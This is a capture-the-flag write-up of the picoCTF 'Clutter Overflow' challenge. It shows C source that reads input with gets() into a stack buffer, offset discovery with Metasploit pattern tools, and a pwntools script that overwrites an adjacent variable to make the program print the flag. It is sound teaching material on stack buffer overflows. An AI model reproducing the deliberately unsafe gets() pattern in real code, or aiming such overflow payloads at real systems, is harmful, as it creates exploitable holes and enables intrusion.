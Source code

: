 <h1><b>Clutter Overflow</b> Challange from PicoCTF</h1>
<h2>Writup</h2>
Video Writup: https://www.youtube.com/watch?v=rdWtcwosHrk <br>
challange link: https://play.picoctf.org/practice/challenge/216?category=6&page=1 <br>
points : 150

<b>Description</b>: Clutter, clutter everywhere and not a byte to use. 

```
#include <stdio.h>
#include <stdlib.h>

#define SIZE 0x100
#define GOAL 0xdeadbeef

const char* HEADER = 
" ______________________________________________________________________\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \\^ ^ |\n"
"|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \\ ^ _ ^ / |                | \\^ ^|\n"
"| ^/_\\^ ^ ^ /_________\\^ ^ ^ /_\\ | //  | /_\\ ^| |   ____  ____   | | ^ |\n"
"|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|\n"
"| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |\n"
"|^ ^ ^ ^ ^| /     (   \\ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \\|^ ^|\n"
".-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |\n"
"|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\\ |^ ^|\n"
"| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |\n"
"|'.____'_^||/!\\@@@@@/!\\|| _'______________.'|==                    =====\n"
"|\\|______|===============|________________|/|\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\" ||\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"  \n"
"\"\"''\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"";

int main(void)
{
  long code = 0;
  char clutter[SIZE];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);
 	
  puts(HEADER); 
  puts("My room is so cluttered...");
  puts("What do you see?");

  gets(clutter);


  if (code == GOAL) {
    printf("code == 0x%llx: how did that happen??\n", GOAL);
    puts("take a flag for your troubles");
    system("cat flag.txt");
  } else {
    printf("code == 0x%llx\n", code);
    printf("code != 0x%llx :(\n", GOAL);
  }

  return 0;
}
```
From the very first look, we can see at line number 50 gets function is used, which is vulnerable for Buffer overflow vulnerability, so what program doing is
it declared global variable GOAL 0xdeadbeef ,and code = 0 in main function. first it will ask for the user input, whose size expected by program should be max. 
100 char. now there is an if condition which check code == GOAL ( which is false from the declartion of variables from the program), if it is true it will cat the
flag.txt, oterwise it will exit after printing code value.

![](1st.png)

If we put 300 char long string as an input, the value of code variable get overwrite, so what we can do is we can try to overwrite the value of code variable in 
stack to 0xdeadbeef , so if condition become true and program will cat the flag.txt

<h1><b>EXPLOITATION</b></h1>
for overwriting the value of variable code, we must know after putting how much number of character, the value of code is overwrited. for that we can use meta-
sploit-framework's exploits.
creating pattern string of 300 char:

> /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 300

<b>output</b>: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
so lets put this pattern string in chall as an input

![](2nd.png)

so after putting above pattern, value of code variable become 0x6a41396941386941 , to find the exact match of this sting within the pattern we will use another
metasploit-framework's exploit

> /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 300 -q 6a41396941386941

![](3rd.png)

So the value of code varible is overwritten by the char we had put after putting 264 chars.

to confirm this, what we can do is, we can give a payload of 'A'*264 + 'BCDEF' to the program, so if code variable value comes to 0x4645444342 (which is the value 
of 'BCDEF' in little endian hex), then our exploit gave the correct result.
![](4th.png)
So from the above, we have confirmed that we can overwrite the value of code variable with the chars comes after putting 264 chars.
so we can write an small pwn exploit, to do this

```
import pwn

host = "mars.picoctf.net"
port = 31890
s = pwn.remote(host,port)
s.recvline()
s.recvline()
s.recvline()
payload = b'A'*264 + pwn.p64(0xdeadbeef)
s.sendline(payload)
s.interactive()
s.close()
```
SO what we have did here is, we establish a remote tcp connection with server, then we did s.recvline() to recieve the banner and question. 
then we crafter our payload, since we need to make the if condition true to get the content of flag.txt, we have added pwn.p64(0xdeadbeef) after 264 char.
so it will make the value of code variable same as GOAL variable. after sending the payload, we will have our flag.
![](5th.png)
<br>
  <b> Thank You</b>
                                                                                                              
